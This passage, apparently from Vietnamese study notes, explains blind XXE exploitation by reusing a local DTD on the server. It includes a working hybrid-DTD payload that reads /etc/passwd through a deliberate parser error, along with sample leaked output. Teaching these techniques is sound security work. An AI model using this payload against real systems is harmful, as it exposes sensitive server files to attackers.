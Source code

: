 #### 📌 Ví dụ lỗi nhận được

```xml
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

---

### ⚡ Khai thác blind XXE bằng cách tái sử dụng local DTD

Kỹ thuật gây lỗi parser để lấy dữ liệu thường hoạt động với **external DTD**, nhưng **không hoạt động với internal DTD** nằm hoàn toàn trong phần `<!DOCTYPE>`.  
Lý do: **XML chuẩn không cho phép dùng parameter entity bên trong định nghĩa của một parameter entity khác trong internal DTD**, nhưng **cho phép trong external DTD** (một số parser có thể bỏ qua, nhưng đa số không).

---

#### 📌 Ý tưởng vượt giới hạn này

- Nếu **các kết nối OOB bị chặn** (không thể gửi request ra ngoài, không thể tải DTD từ xa), vẫn có thể:
  - Gây lỗi parser chứa dữ liệu nhạy cảm
  - Bằng cách **dùng DTD lai (hybrid DTD)**: vừa có **external DTD cục bộ** vừa có **internal DTD**
- Khi dùng hybrid DTD:
  - Internal DTD có thể **ghi đè entity đã khai báo trong external DTD**
  - Khi ghi đè, **giới hạn về việc lồng parameter entity được nới lỏng** <br>
  → Tận dụng một **tệp DTD có sẵn trên máy chủ** làm external DTD, rồi **ghi đè entity bên trong nó để gây lỗi chứa dữ liệu nhạy cảm**.
  
<br>

> 📌 Kỹ thuật này do **Arseniy Sharoglazov** phát triển, từng xếp hạng #7 trong **top 10 web hacking techniques of 2018**.
<br>

#### 📌 Ví dụ hybrid DTD

Giả sử máy chủ có một tệp DTD tại `/usr/local/app/schema.dtd`  
và tệp này có khai báo entity tên `custom_entity`.

Kẻ tấn công gửi payload:

```xml
<!DOCTYPE foo [
  <!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
  <!ENTITY % custom_entity '
    <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
    <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
    &#x25;eval;
    &#x25;error;
  '>
  %local_dtd;
]>
```
